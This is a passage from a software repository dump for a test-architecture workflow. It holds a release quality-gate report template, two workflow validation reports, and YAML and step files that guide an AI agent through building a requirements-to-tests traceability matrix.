- **P2 Tests**: {p2_passed}/{p2_total} passed ({p2_pass_rate}%) {informational}
- **P3 Tests**: {p3_passed}/{p3_total} passed ({p3_pass_rate}%) {informational}

**Overall Pass Rate**: {overall_pass_rate}% {✅ | ⚠️ | ❌}

**Test Results Source**: {CI_run_id | test_report_url | local_run}

---

#### Coverage Summary (from Phase 1)

**Requirements Coverage:**

- **P0 Acceptance Criteria**: {p0_covered}/{p0_total} covered ({p0_coverage}%) {✅ | ❌}
- **P1 Acceptance Criteria**: {p1_covered}/{p1_total} covered ({p1_coverage}%) {✅ | ⚠️ | ❌}
- **P2 Acceptance Criteria**: {p2_covered}/{p2_total} covered ({p2_coverage}%) {informational}
- **Overall Coverage**: {overall_coverage}%

**Code Coverage** (if available):

- **Line Coverage**: {line_coverage}% {✅ | ⚠️ | ❌}
- **Branch Coverage**: {branch_coverage}% {✅ | ⚠️ | ❌}
- **Function Coverage**: {function_coverage}% {✅ | ⚠️ | ❌}

**Coverage Source**: {coverage_report_url | coverage_file_path}

---

#### Non-Functional Requirements (NFRs)

**Security**: {PASS | CONCERNS | FAIL | NOT_ASSESSED} {✅ | ⚠️ | ❌}

- Security Issues: {security_issue_count}
- {details_if_issues}

**Performance**: {PASS | CONCERNS | FAIL | NOT_ASSESSED} {✅ | ⚠️ | ❌}

- {performance_metrics_summary}

**Reliability**: {PASS | CONCERNS | FAIL | NOT_ASSESSED} {✅ | ⚠️ | ❌}

- {reliability_metrics_summary}

**Maintainability**: {PASS | CONCERNS | FAIL | NOT_ASSESSED} {✅ | ⚠️ | ❌}

- {maintainability_metrics_summary}

**NFR Source**: {nfr_assessment_file_path | not_assessed}

---

#### Flakiness Validation

**Burn-in Results** (if available):

- **Burn-in Iterations**: {iteration_count} (e.g., 10)
- **Flaky Tests Detected**: {flaky_test_count} {✅ if 0 | ❌ if >0}
- **Stability Score**: {stability_percentage}%

**Flaky Tests List** (if any):

- {flaky_test_1_name} - {failure_rate}
- {flaky_test_2_name} - {failure_rate}

**Burn-in Source**: {CI_burn_in_run_id | not_available}

---

### Decision Criteria Evaluation

#### P0 Criteria (Must ALL Pass)

| Criterion             | Threshold | Actual                    | Status   |
| --------------------- | --------- | ------------------------- | -------- | -------- |
| P0 Coverage           | 100%      | {p0_coverage}%            | {✅ PASS | ❌ FAIL} |
| P0 Test Pass Rate     | 100%      | {p0_pass_rate}%           | {✅ PASS | ❌ FAIL} |
| Security Issues       | 0         | {security_issue_count}    | {✅ PASS | ❌ FAIL} |
| Critical NFR Failures | 0         | {critical_nfr_fail_count} | {✅ PASS | ❌ FAIL} |
| Flaky Tests           | 0         | {flaky_test_count}        | {✅ PASS | ❌ FAIL} |

**P0 Evaluation**: {✅ ALL PASS | ❌ ONE OR MORE FAILED}

---

#### P1 Criteria (Required for PASS, May Accept for CONCERNS)

| Criterion              | Threshold                 | Actual               | Status   |
| ---------------------- | ------------------------- | -------------------- | -------- | ----------- | -------- |
| P1 Coverage            | ≥{min_p1_coverage}%       | {p1_coverage}%       | {✅ PASS | ⚠️ CONCERNS | ❌ FAIL} |
| P1 Test Pass Rate      | ≥{min_p1_pass_rate}%      | {p1_pass_rate}%      | {✅ PASS | ⚠️ CONCERNS | ❌ FAIL} |
| Overall Test Pass Rate | ≥{min_overall_pass_rate}% | {overall_pass_rate}% | {✅ PASS | ⚠️ CONCERNS | ❌ FAIL} |
| Overall Coverage       | ≥{min_coverage}%          | {overall_coverage}%  | {✅ PASS | ⚠️ CONCERNS | ❌ FAIL} |

**P1 Evaluation**: {✅ ALL PASS | ⚠️ SOME CONCERNS | ❌ FAILED}

---

#### P2/P3 Criteria (Informational, Don't Block)

| Criterion         | Actual          | Notes                                                        |
| ----------------- | --------------- | ------------------------------------------------------------ |
| P2 Test Pass Rate | {p2_pass_rate}% | {allow_p2_failures ? "Tracked, doesn't block" : "Evaluated"} |
| P3 Test Pass Rate | {p3_pass_rate}% | {allow_p3_failures ? "Tracked, doesn't block" : "Evaluated"} |

---

### GATE DECISION: {PASS | CONCERNS | FAIL | WAIVED}

---

### Rationale

{Explain decision based on criteria evaluation}

{Highlight key evidence that drove decision}

{Note any assumptions or caveats}

**Example (PASS):**

> All P0 criteria met with 100% coverage and pass rates across critical tests. All P1 criteria exceeded thresholds with 98% overall pass rate and 92% coverage. No security issues detected. No flaky tests in validation. Feature is ready for production deployment with standard monitoring.

**Example (CONCERNS):**

> All P0 criteria met, ensuring critical user journeys are protected. However, P1 coverage (88%) falls below threshold (90%) due to missing E2E test for AC-5 edge case. Overall pass rate (96%) is excellent. Issues are non-critical and have acceptable workarounds. Risk is low enough to deploy with enhanced monitoring.

**Example (FAIL):**

> CRITICAL BLOCKERS DETECTED:
>
> 1. P0 coverage incomplete (80%) - AC-2 security validation missing
> 2. P0 test failures (75% pass rate) in core search functionality
> 3. Unresolved SQL injection vulnerability in search filter (CRITICAL)
>
> Release MUST BE BLOCKED until P0 issues are resolved. Security vulnerability cannot be waived.

**Example (WAIVED):**

> Original decision was FAIL due to P0 test failure in legacy Excel 2007 export module (affects <1% of users). However, release contains critical GDPR compliance features required by regulatory deadline (Oct 15). Business has approved waiver given:
>
> - Regulatory priority overrides legacy module risk
> - Workaround available (use Excel 2010+)
> - Issue will be fixed in v2.4.1 hotfix (due Oct 20)
> - Enhanced monitoring in place

---

### {Section: Delete if not applicable}

#### Residual Risks (For CONCERNS or WAIVED)

List unresolved P1/P2 issues that don't block release but should be tracked:

1. **{Risk Description}**
   - **Priority**: P1 | P2
   - **Probability**: Low | Medium | High
   - **Impact**: Low | Medium | High
   - **Risk Score**: {probability × impact}
   - **Mitigation**: {workaround or monitoring plan}
   - **Remediation**: {fix in next milestone/release}

**Overall Residual Risk**: {LOW | MEDIUM | HIGH}

---

#### Waiver Details (For WAIVED only)

**Original Decision**: ❌ FAIL

**Reason for Failure**:

- {list_of_blocking_issues}

**Waiver Information**:

- **Waiver Reason**: {business_justification}
- **Waiver Approver**: {name}, {role} (e.g., Jane Doe, VP Engineering)
- **Approval Date**: {YYYY-MM-DD}
- **Waiver Expiry**: {YYYY-MM-DD} (**NOTE**: Does NOT apply to next release)

**Monitoring Plan**:

- {enhanced_monitoring_1}
- {enhanced_monitoring_2}
- {escalation_criteria}

**Remediation Plan**:

- **Fix Target**: {next_release_version} (e.g., v2.4.1 hotfix)
- **Due Date**: {YYYY-MM-DD}
- **Owner**: {team_or_person}
- **Verification**: {how_fix_will_be_verified}

**Business Justification**:
{detailed_explanation_of_why_waiver_is_acceptable}

---

#### Critical Issues (For FAIL or CONCERNS)

Top blockers requiring immediate attention:

| Priority | Issue         | Description         | Owner        | Due Date     | Status             |
| -------- | ------------- | ------------------- | ------------ | ------------ | ------------------ |
| P0       | {issue_title} | {brief_description} | {owner_name} | {YYYY-MM-DD} | {OPEN/IN_PROGRESS} |
| P0       | {issue_title} | {brief_description} | {owner_name} | {YYYY-MM-DD} | {OPEN/IN_PROGRESS} |
| P1       | {issue_title} | {brief_description} | {owner_name} | {YYYY-MM-DD} | {OPEN/IN_PROGRESS} |

**Blocking Issues Count**: {p0_blocker_count} P0 blockers, {p1_blocker_count} P1 issues

---

### Gate Recommendations

#### For PASS Decision ✅

1. **Proceed to deployment**
   - Deploy to staging environment
   - Validate with smoke tests
   - Monitor key metrics for 24-48 hours
   - Deploy to production with standard monitoring

2. **Post-Deployment Monitoring**
   - {metric_1_to_monitor}
   - {metric_2_to_monitor}
   - {alert_thresholds}

3. **Success Criteria**
   - {success_criterion_1}
   - {success_criterion_2}

---

#### For CONCERNS Decision ⚠️

1. **Deploy with Enhanced Monitoring**
   - Deploy to staging with extended validation period
   - Enable enhanced logging/monitoring for known risk areas:
     - {risk_area_1}
     - {risk_area_2}
   - Set aggressive alerts for potential issues
   - Deploy to production with caution

2. **Create Remediation Backlog**
   - Create story: "{fix_title_1}" (Priority: {priority})
   - Create story: "{fix_title_2}" (Priority: {priority})
   - Target milestone: {next_milestone}

3. **Post-Deployment Actions**
   - Monitor {specific_areas} closely for {time_period}
   - Weekly status updates on remediation progress
   - Re-assess after fixes deployed

---

#### For FAIL Decision ❌

1. **Block Deployment Immediately**
   - Do NOT deploy to any environment
   - Notify stakeholders of blocking issues
   - Escalate to tech lead and PM

2. **Fix Critical Issues**
   - Address P0 blockers listed in Critical Issues section
   - Owner assignments confirmed
   - Due dates agreed upon
   - Daily standup on blocker resolution

3. **Re-Run Gate After Fixes**
   - Re-run full test suite after fixes
   - Re-run `bmad tea *trace` workflow
   - Verify decision is PASS before deploying

---

#### For WAIVED Decision 🔓

1. **Deploy with Business Approval**
   - Confirm waiver approver has signed off
   - Document waiver in release notes
   - Notify all stakeholders of waived risks

2. **Aggressive Monitoring**
   - {enhanced_monitoring_plan}
   - {escalation_procedures}
   - Daily checks on waived risk areas

3. **Mandatory Remediation**
   - Fix MUST be completed by {due_date}
   - Issue CANNOT be waived in next release
   - Track remediation progress weekly
   - Verify fix in next gate

---

### Next Steps

**Immediate Actions** (next 24-48 hours):

1. {action_1}
2. {action_2}
3. {action_3}

**Follow-up Actions** (next milestone/release):

1. {action_1}
2. {action_2}
3. {action_3}

**Stakeholder Communication**:

- Notify PM: {decision_summary}
- Notify SM: {decision_summary}
- Notify DEV lead: {decision_summary}

---

## Integrated YAML Snippet (CI/CD)

```yaml
traceability_and_gate:
  # Phase 1: Traceability
  traceability:
    story_id: "{STORY_ID}"
    date: "{DATE}"
    coverage:
      overall: {OVERALL_PCT}%
      p0: {P0_PCT}%
      p1: {P1_PCT}%
      p2: {P2_PCT}%
      p3: {P3_PCT}%
    gaps:
      critical: {CRITICAL_COUNT}
      high: {HIGH_COUNT}
      medium: {MEDIUM_COUNT}
      low: {LOW_COUNT}
    quality:
      passing_tests: {PASSING_COUNT}
      total_tests: {TOTAL_TESTS}
      blocker_issues: {BLOCKER_COUNT}
      warning_issues: {WARNING_COUNT}
    recommendations:
      - "{RECOMMENDATION_1}"
      - "{RECOMMENDATION_2}"

  # Phase 2: Gate Decision
  gate_decision:
    decision: "{PASS | CONCERNS | FAIL | WAIVED}"
    gate_type: "{story | epic | release | hotfix}"
    decision_mode: "{deterministic | manual}"
    criteria:
      p0_coverage: {p0_coverage}%
      p0_pass_rate: {p0_pass_rate}%
      p1_coverage: {p1_coverage}%
      p1_pass_rate: {p1_pass_rate}%
      overall_pass_rate: {overall_pass_rate}%
      overall_coverage: {overall_coverage}%
      security_issues: {security_issue_count}
      critical_nfrs_fail: {critical_nfr_fail_count}
      flaky_tests: {flaky_test_count}
    thresholds:
      min_p0_coverage: 100
      min_p0_pass_rate: 100
      min_p1_coverage: {min_p1_coverage}
      min_p1_pass_rate: {min_p1_pass_rate}
      min_overall_pass_rate: {min_overall_pass_rate}
      min_coverage: {min_coverage}
    evidence:
      test_results: "{CI_run_id | test_report_url}"
      traceability: "{trace_file_path}"
      nfr_assessment: "{nfr_file_path}"
      code_coverage: "{coverage_report_url}"
    next_steps: "{brief_summary_of_recommendations}"
    waiver: # Only if WAIVED
      reason: "{business_justification}"
      approver: "{name}, {role}"
      expiry: "{YYYY-MM-DD}"
      remediation_due: "{YYYY-MM-DD}"
```

---

## Related Artifacts

- **Story File:** {STORY_FILE_PATH}
- **Test Design:** {TEST_DESIGN_PATH} (if available)
- **Tech Spec:** {TECH_SPEC_PATH} (if available)
- **Test Results:** {TEST_RESULTS_PATH}
- **NFR Assessment:** {NFR_FILE_PATH} (if available)
- **Test Files:** {TEST_DIR_PATH}

---

## Sign-Off

**Phase 1 - Traceability Assessment:**

- Overall Coverage: {OVERALL_PCT}%
- P0 Coverage: {P0_PCT}% {P0_STATUS}
- P1 Coverage: {P1_PCT}% {P1_STATUS}
- Critical Gaps: {CRITICAL_COUNT}
- High Priority Gaps: {HIGH_COUNT}

**Phase 2 - Gate Decision:**

- **Decision**: {PASS | CONCERNS | FAIL | WAIVED} {STATUS_ICON}
- **P0 Evaluation**: {✅ ALL PASS | ❌ ONE OR MORE FAILED}
- **P1 Evaluation**: {✅ ALL PASS | ⚠️ SOME CONCERNS | ❌ FAILED}

**Overall Status:** {STATUS} {STATUS_ICON}

**Next Steps:**

- If PASS ✅: Proceed to deployment
- If CONCERNS ⚠️: Deploy with monitoring, create remediation backlog
- If FAIL ❌: Block deployment, fix critical issues, re-run workflow
- If WAIVED 🔓: Deploy with business approval and aggressive monitoring

**Generated:** {DATE}
**Workflow:** testarch-trace v4.0 (Enhanced with Gate Decision)

---

<!-- Powered by BMAD-CORE™ -->
```

## File: `src/workflows/testarch/bmad-testarch-trace/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-trace
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-trace
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-trace

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-load-context.md: 73 lines [GOOD]
- steps-c/step-02-discover-tests.md: 62 lines [GOOD]
- steps-c/step-03-map-criteria.md: 58 lines [GOOD]
- steps-c/step-04-analyze-gaps.md: 57 lines [GOOD]
- steps-c/step-05-gate-decision.md: 66 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: trace-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-gate-decision.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-trace/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-trace
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-trace
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-trace

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-load-context.md: 72 lines [GOOD]
- steps-c/step-02-discover-tests.md: 61 lines [GOOD]
- steps-c/step-03-map-criteria.md: 57 lines [GOOD]
- steps-c/step-04-analyze-gaps.md: 56 lines [GOOD]
- steps-c/step-05-gate-decision.md: 65 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-load-context.md: Init [PASS]
- steps-c/step-02-discover-tests.md: Middle [PASS]
- steps-c/step-03-map-criteria.md: Middle [PASS]
- steps-c/step-04-analyze-gaps.md: Middle [PASS]
- steps-c/step-05-gate-decision.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: trace-template.md
- Steps with outputFile in frontmatter:
  - steps-c/step-05-gate-decision.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 8 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-trace/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-trace

    ## Create Mode (steps-c)
    - step-01-load-context.md

- step-02-discover-tests.md
- step-03-map-criteria.md
- step-04-analyze-gaps.md
- step-05-gate-decision.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - {test_artifacts}/traceability-matrix.md

- Gate decision summary (if evidence available)
```

## File: `src/workflows/testarch/bmad-testarch-trace/workflow.md`
```markdown
---
name: bmad-testarch-trace
description: Generate traceability matrix and quality gate decision. Use when user says 'lets create traceability matrix' or 'I want to analyze test coverage'
web_bundle: true
---

# Requirements Traceability & Quality Gate

**Goal:** Generate requirements-to-tests traceability matrix, analyze coverage, and make quality gate decision (PASS/CONCERNS/FAIL/WAIVED)

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-load-context.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-trace/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-trace
name: bmad-testarch-trace
# prettier-ignore
description: 'Generate traceability matrix and quality gate decision. Use when the user says "lets create traceability matrix" or "I want to analyze test coverage"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"
template: "./trace-template.md"

# Variables and inputs
variables:
  # Directory paths
  test_dir: "{project-root}/tests" # Root test directory
  source_dir: "{project-root}" # Source code directory (customize if needed, e.g., {project-root}/src or {project-root}/lib)

  # Workflow behavior
  coverage_levels: "e2e,api,component,unit" # Which test levels to trace
  gate_type: "story" # story | epic | release | hotfix - determines gate scope
  decision_mode: "deterministic" # deterministic (rule-based) | manual (team decision)

# Output configuration
default_output_file: "{test_artifacts}/traceability-matrix.md"

# Required tools
required_tools:
  - read_file # Read story, test files, BMad artifacts
  - write_file # Create traceability matrix, gate YAML
  - list_files # Discover test files
  - search_repo # Find tests by test ID, describe blocks
  - glob # Find test files matching patterns

tags:
  - qa
  - traceability
  - test-architect
  - coverage
  - requirements
  - gate
  - decision
  - release

execution_hints:
  interactive: false # Minimize prompts
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-01-load-context.md`
```markdown
---
name: 'step-01-load-context'
description: 'Load requirements, knowledge base, and related artifacts'
nextStepFile: './step-02-discover-tests.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/traceability-report.md'
---

# Step 1: Load Context & Knowledge Base

## STEP GOAL

Gather acceptance criteria, priorities, and supporting artifacts for traceability.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Prerequisites

- Acceptance criteria available (story or provided inline)
- Tests exist OR gaps explicitly acknowledged

If acceptance criteria are missing, **HALT** and request them.

---

## 2. Load Knowledge Base

From `{knowledgeIndex}` load:

- `test-priorities-matrix.md`
- `risk-governance.md`
- `probability-impact.md`
- `test-quality.md`
- `selective-testing.md`

---

## 3. Load Artifacts

If available:

- Story file and acceptance criteria
- Test design doc (priorities)
- Tech spec / PRD

Summarize what was found.

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-load-context']
  lastStep: 'step-01-load-context'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-load-context'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-load-context'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/traceability-report.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing output document, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Display Progress Dashboard

Display:

"📋 **Workflow Resume — Requirements Traceability & Quality Gate**

**Last saved:** {lastSaved}
**Steps completed:** {stepsCompleted.length} of 5

1. Load Context (step-01-load-context) — {✅ if in stepsCompleted, ⬜ otherwise}
2. Discover Tests (step-02-discover-tests) — {✅ if in stepsCompleted, ⬜ otherwise}
3. Map Criteria (step-03-map-criteria) — {✅ if in stepsCompleted, ⬜ otherwise}
4. Analyze Gaps (step-04-analyze-gaps) — {✅ if in stepsCompleted, ⬜ otherwise}
5. Gate Decision (step-05-gate-decision) — {✅ if in stepsCompleted, ⬜ otherwise}"

---

### 3. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-load-context'` → Load `./step-02-discover-tests.md`
- `'step-02-discover-tests'` → Load `./step-03-map-criteria.md`
- `'step-03-map-criteria'` → Load `./step-04-analyze-gaps.md`
- `'step-04-analyze-gaps'` → Load `./step-05-gate-decision.md`
- `'step-05-gate-decision'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps. Use it as reference for remaining steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Incorrect progress display
- Routing to wrong step
- Re-executing completed steps

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-02-discover-tests.md`
```markdown
---
name: 'step-02-discover-tests'
description: 'Discover and catalog tests by level'
nextStepFile: './step-03-map-criteria.md'
outputFile: '{test_artifacts}/traceability-report.md'
---

# Step 2: Discover & Catalog Tests

## STEP GOAL

Identify tests relevant to the requirements and classify by test level.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Discover Tests

Search `{test_dir}` for:

- Test IDs (e.g., `1.3-E2E-001`)
- Feature name matches
- Spec patterns (`*.spec.*`, `*.test.*`)

---

## 2. Categorize by Level

Classify as:

- E2E
- API
- Component
- Unit

Record test IDs, describe blocks, and priority markers if present.

---

## 3. Build Coverage Heuristics Inventory

Capture explicit coverage signals so Phase 1 can detect common blind spots:

- API endpoint coverage
  - Inventory endpoints referenced by requirements/specs and endpoints exercised by API tests
  - Mark endpoints with no direct tests
- Authentication/authorization coverage
  - Detect tests for login/session/token flows and permission-denied paths
  - Mark auth/authz requirements with missing negative-path tests
- Error-path coverage
  - Detect validation, timeout, network-failure, and server-error scenarios
  - Mark criteria with happy-path-only tests

Record these findings in step output as `coverage_heuristics` for Step 3/4.

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-discover-tests']
  lastStep: 'step-02-discover-tests'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-discover-tests'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-discover-tests'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-trace/steps-c/step-03-map-criteria.md`
```markdown
---
name: 'step-03-map-criteria'
description: 'Map acceptance criteria to tests and build traceability matrix'
nextStepFile: './step-04-analyze-gaps.md'
outputFile: '{test_artifacts}/traceability-report.md'
---

# Step 3: Map Criteria to Tests

## STEP GOAL

Create the traceability matrix linking requirements to tests.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Build Matrix

For each acceptance criterion:

- Map to matching tests
- Mark coverage status: FULL / PARTIAL / NONE / UNIT-ONLY / INTEGRATION-ONLY
- Record test level and priority
- Record heuristic signals:
  - Endpoint coverage present/missing (for API-impacting criteria)
  - Auth/authz coverage present/missing (positive and negative paths)
  - Error-path coverage present/missing (validation, timeout, network/server failures)

---

## 2. Validate Coverage Logic

Ensure:

- P0/P1 criteria have coverage
- No duplicate coverage across levels without justification
- Criteria are not happy-path-only when requirements imply error handling
